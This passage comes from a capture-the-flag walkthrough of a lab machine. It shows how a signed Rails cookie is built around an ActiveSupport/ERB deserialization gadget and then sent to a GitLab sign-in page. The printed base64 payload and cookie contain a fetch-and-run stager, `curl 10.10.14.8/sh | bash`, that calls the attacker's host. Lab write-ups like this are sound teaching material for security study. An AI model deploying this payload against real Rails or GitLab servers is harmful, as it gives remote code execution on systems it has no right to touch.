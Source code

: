 Interestingly, the next two steps each run the payload. In this case, as
I haven't started a webserver on my host, it fails to connect all three
times:



    irb(main):006:0> depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
      0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0curl: (7) Failed to connect to 10.10.14.8 port 80: Connection refused
    => ""
    irb(main):007:0> cookies.signed[:cookie] = depr
    DEPRECATION WARNING: @result is deprecated! Call result.is_a? instead of @result.is_a?. Args: [Hash] (called from irb_binding at (irb):7)
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
      0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0curl: (7) Failed to connect to 10.10.14.8 port 80: Connection refused
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
      0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0curl: (7) Failed to connect to 10.10.14.8 port 80: Connection refused
    => ""



Now print the payload:



    irb(main):008:0> puts cookies[:cookie]
    BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiWyNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBjdXJsIDEwLjEwLjE0Ljgvc2ggfCBiYXNoYCApLnRvX3MpOyBfZXJib3V0BjoGRUY6DkBlbmNvZGluZ0l1Og1FbmNvZGluZwpVVEYtOAY7CkY6E0Bmcm96ZW5fc3RyaW5nMDoOQGZpbGVuYW1lMDoMQGxpbmVub2kAOgxAbWV0aG9kOgtyZXN1bHQ6CUB2YXJJIgxAcmVzdWx0BjsKVDoQQGRlcHJlY2F0b3JJdTofQWN0aXZlU3VwcG9ydDo6RGVwcmVjYXRpb24ABjsKVA==--05460c0d9545ac9d886594b7251a19811d91d6be
    => nil



#### Send Payload

I'll start a Python webserver, and use `curl` to send the payload. I
need `-k` to ignore the invalid certificate:



    oxdf@parrot$ curl -k https://git.laboratory.htb/users/sign_in --cookie "experimentation_subject_id=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiWyNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBjdXJsIDEwLjEwLjE0Ljgvc2ggfCBiYXNoYCApLnRvX3MpOyBfZXJib3V0BjoGRUY6DkBlbmNvZGluZ0l1Og1FbmNvZGluZwpVVEYtOAY7CkY6E0Bmcm96ZW5fc3RyaW5nMDoOQGZpbGVuYW1lMDoMQGxpbmVub2kAOgxAbWV0aG9kOgtyZXN1bHQ6CUB2YXJJIgxAcmVzdWx0BjsKVDoQQGRlcHJlY2F0b3JJdTofQWN0aXZlU3VwcG9ydDo6RGVwcmVjYXRpb24ABjsKVA==--05460c0d9545ac9d886594b7251a19811d91d6be"
    ...[snip]...
